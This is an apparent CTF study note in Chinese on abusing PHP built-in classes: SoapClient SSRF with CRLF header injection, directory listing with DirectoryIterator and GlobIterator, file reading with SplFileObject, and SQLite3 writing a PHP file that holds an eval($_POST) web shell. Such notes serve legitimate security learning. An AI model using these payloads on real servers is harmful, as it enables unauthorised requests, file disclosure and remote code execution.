 - [PHP 内置类的应用](https://www.cnblogs.com/iamstudy/articles/unserialize_in_php_inner_class.html#_label1_0)
- # SoapClient
	- 可以向任意url post任意内容
	- 需要打开对应扩展才能使用
	- ```php
	  <?php
	  $s = "123";
	  $l = strlen($s);
	  $a = new SoapClient(
	    null,
	    array(
	        'uri'=>'bbb',
	        'location'=>'http://127.0.0.1:80/flag.php',
	        'user_agent'=>"test\r\nCookie: PHPSESSID=0mrbj32r0ptfcnf7l6kmmgh1c4\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: $l\r\n\r\n$s"
	    )
	  );
	  echo base64_encode(serialize($a));
	  // 利用：$a->notexist();
	  ?>
	  ```
- # Error类:
	- ((62efc5c6-a0d5-4eab-906e-0db03366b1e9))
- # DirectoryIterator
  id:: 6478aaed-922b-471c-b8d6-ec1b0cb0444d
	- 可以读取文件夹
	- ```php
	  $a=new DirectoryIterator("glob:///*");
	  foreach($a as $f){
	  	echo $f.' ';
	  }
	  ```
	- FilesystemIterator与之类似
- # GlobIterator
	- 可以使用glob读取文件夹
	- ```php
	  <?php
	  highlight_file(__file__);
	  $dir = '/*';
	  $a = new GlobIterator($dir);
	  foreach($a as $f){
	      echo($f->__toString().'<br>');
	  }
	  ?>
	  ```
- # SplFileObject
	- 可以读取文件，支持伪协议
	- 例子：[[CTFWEB/WP/GDOUCTF 2023 反方向的钟]]
- # SQLite
	- 可以实现文件创建/写入
	- ```php
	  <?php
	  // 创建或连接数据库
	  $db = new SQLite3('test.php');
	  
	  // 创建新表
	  $query = 'CREATE TABLE IF NOT EXISTS users (id INTEGER PRIMARY KEY, username TEXT, email TEXT)';
	  $db->exec($query);
	  
	  // 向表中添加数据
	  $query = 'INSERT INTO users (username, email) VALUES (\'TestUser\', \'<?php eval($_POST["data"]);\')';
	  $db->exec($query);
	  
	  // 关闭数据库连接
	  $db->close();
	  
	  ```